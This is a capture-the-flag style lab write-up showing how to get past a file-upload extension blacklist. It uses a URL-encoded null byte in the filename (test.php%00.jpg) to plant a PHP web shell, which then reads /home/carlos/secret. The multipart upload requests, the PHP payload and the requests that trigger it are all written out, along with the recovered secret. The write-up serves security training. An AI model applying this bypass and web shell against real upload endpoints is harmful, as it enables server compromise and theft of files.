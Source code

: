 # Web shell upload via obfuscated file extension

## This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

## To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login using userid and password
upload a image and then upload exploite php file and intercept to repeater

```php
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result -> sorry, only JPG & PNG files are allowed
now
change content-type

```php
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result -> sorry, only JPG & PNG files are allowed

### step2

### include a URL encoded null byte _%00_

### test.php%00.jpg

```php
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: image/jpg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result ->The file avatars/test.php has been uploaded
look for jpg file url which we uploaded
GET /files/avatars/meme.jpg HTTP/1.1
change to test.php
GET /files/avatars/test.php HTTP/1.1
send request
a3T2Ox6vJ2N4DaCUMzg6W2hSJaVNiRo1

lab solved

